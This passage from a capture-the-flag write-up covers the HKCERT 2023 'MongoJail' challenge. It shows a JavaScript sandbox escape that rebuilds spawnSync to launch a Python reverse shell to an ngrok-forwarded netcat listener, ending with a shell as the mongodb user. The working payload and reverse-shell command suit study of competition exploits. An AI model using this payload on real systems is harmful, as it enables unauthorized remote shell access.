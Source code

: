 Finally, we can use the above modified `spawnSync` function to execute system commands.

To get a shell on the challenge instance, we can:

- Setup a netcat listener:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:30(HKT)]
└> nc -lnvp 4444                    
listening on [any] 4444 ...
```

- Port forwarding via Ngrok:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:20(HKT)]
└> ngrok tcp 4444                   
[...]
Forwarding                    tcp://0.tcp.ap.ngrok.io:11075 -> localhost:4444
```

By doing this, the challenge instance can reach to our netcat listener.

- Send the Python reverse shell payload using the modified `spawnSync` function:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:43(HKT)]
└> nc chal.hkcert23.pwnable.hk 28225
Enter math expression:
spawn_sync = this.process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||this.process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};spawnSync = function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}};var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;};spawnSync('python3',['-c','import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ngrok_domain>",<your_ngrok_port>));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);']);
```

> Note: Remeber to replace your own Ngrok domain and port number.

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/HKCERT-CTF-2023/pwn/MongoJail)-[2023.11.11|13:53:30(HKT)]
└> nc -lnvp 4444                    
listening on [any] 4444 ...
[...]
$ whoami;hostname;id
mongodb
chal25-mongojail-0
uid=999(mongodb) gid=999(mongodb) groups=999(mongodb)
```
